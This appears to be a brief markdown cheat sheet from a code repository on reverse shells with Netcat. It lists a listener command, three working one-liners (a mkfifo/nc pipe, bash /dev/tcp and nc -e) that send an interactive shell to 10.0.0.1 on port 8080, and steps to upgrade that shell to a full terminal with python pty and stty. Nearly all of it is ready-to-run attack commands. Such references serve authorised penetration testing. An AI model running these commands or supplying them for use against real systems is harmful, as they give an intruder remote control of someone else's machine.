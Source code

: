 ## Reverse shells with Netcat

### Listen for incoming connection on port 8080
`nc -nvlp 8080`

### Spawn reverse shell to 10.0.0.1 on port 8080
`rm /tmp/cc;mkfifo /tmp/cc;cat /tmp/cc|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/cc`<br>
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`<br>
`nc -e /bin/sh 10.0.0.1 8080`<br>

### Upgrade interactive shell with python
1. Import pseudo terminal<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`
2. Background the session [ctrl-z]<br>
`stty size`<br>
`stty raw -echo`
4. Foreground the session<br>
`fg`
5. Set environment variables<br>
`export TERM=xterm`<br>
`export PATH=$PATH:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin:/usr/games`<br>
`stty rows [x] cols [y]`<br>
`alias ll='ls -lAF --color=auto'`<br>
`alias llf='ls -lAF --color=auto --full-time'`<br>
`alias pyserv='python -m SimpleHTTPServer'`<br>